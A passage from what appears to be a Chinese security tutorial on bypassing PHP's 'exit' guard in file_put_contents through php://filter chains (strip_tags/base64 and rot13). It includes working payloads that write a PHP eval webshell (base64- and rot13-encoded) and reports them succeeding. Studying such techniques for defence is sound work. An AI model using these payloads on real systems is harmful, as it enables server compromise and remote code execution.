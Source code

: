 有一个缺点就是这种利用手法在windows下利用不成功，因为文件名里面的`? &gt;`等这些是特殊字符会导致文件的创建失败，关于这个问题上面先知的第一篇文章中也有提到这个问题，以及对于这种问题的解决方法：使用`convert.iconv.utf-8.utf-7|convert.base64-decode`进行绕过；同时也可以借鉴`[@Cyc1e](https://github.com/Cyc1e)`师傅文章里面介绍的方法，利用非php://filter过滤器写入payload进行绕过，生成正常文件名；利用这两种方法既可以在Linux下写入文件也可以在Windows下写入文件，具体见下面相关过滤器利用。

<a class="reference-link" name="%E7%AC%AC%E4%BA%8C%E7%A7%8D"></a>**第二种**

```
&lt;?php
$a = $_GET[a];
file_put_contents($a,'&lt;?php exit; ?&gt;'.$a)
?&gt;
```

对于这种情况主要是限制代码本身是闭合的同时有关变量相同，对于这种问题可以借鉴上面先知的第二篇文章有关解决方法，使用`string.trip_tags|convert.base64`过滤进行绕过。
- 构造payload
```
php://filter/%3C|string.strip_tags|convert.base64-decode/resource=%3EPD9waHAgQGV2YWwoJF9QT1NUW1FmdG1dKT8%2B/../Qftm.php
```

关于过滤器里面写入`&lt;|`这个过滤器，虽然php://filter里面没有但是不会爆出致命错误具有一定的兼容性。由于base64解码受字符`'='`的限制，那么则可以将其闭合在标签里面进行剔除，然后再进行base64解码。
- 利用
[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t0186ec4a78f3329994.jpg)

这种方法同样无法在Windows下写入文件只限于Linux下（特殊字符的存在导致）。

<a class="reference-link" name="string.rot13"></a>**string.rot13**

这种方法在`Bypass-不同变量`中的短标签过滤器可以直接拿到使用进行绕过，间接性构造相应的payload，这里的限制不需要闭合`exit;`也可以利用。
- 构造payload
```
a=php://filter/write=string.rot13/resource=&lt;?cuc @riny($_CBFG[Dsgz])?&gt;/../Qftm.php
a=php://filter/write=string.rot13/resource=?&gt;&lt;?cuc @riny($_CBFG[Dsgz])?&gt;/../Qftm.php
```
- 载荷效果
[![](https://p4.ssl.qhimg.com/t01a72498187f04e075.png)](https://p4.ssl.qhimg.com/t01a72498187f04e075.png)

可以看到payload利用成功，生成目标恶意代码文件，同时恶意代码文件访问执行成功

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t01c62dea0fb3a9b53d.png)

针对`string.rot13`这种Bypass手段，还有另一种方法可以生成正常文件，也就是上面提到的，利用非php://filter过滤器写入payload进行绕过，生成正常文件名，虽然该过滤器不存在但是php://filter处理的时候只会显示警告信息不影响后续代码流程的执行（关于这个方法原理也就类似上面`string.strip_stags`的第二种情况通过将`&lt;`不存在的过滤器写入过滤器中闭合后续标签剔除特殊字符）。
- 构造payload
```
a=php://filter/write=string.rot13|&lt;?cuc @riny($_CBFG[Dsgz])?&gt;/resource=Qftm.php
```

这种构造可以使得恶意代码不会存在文件名中，避免了一下文件名因包含特殊字符而出错，当然这种构造在windows下一样可以正常利用。
- 载荷效果
[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t01839b0d337502e320.png)
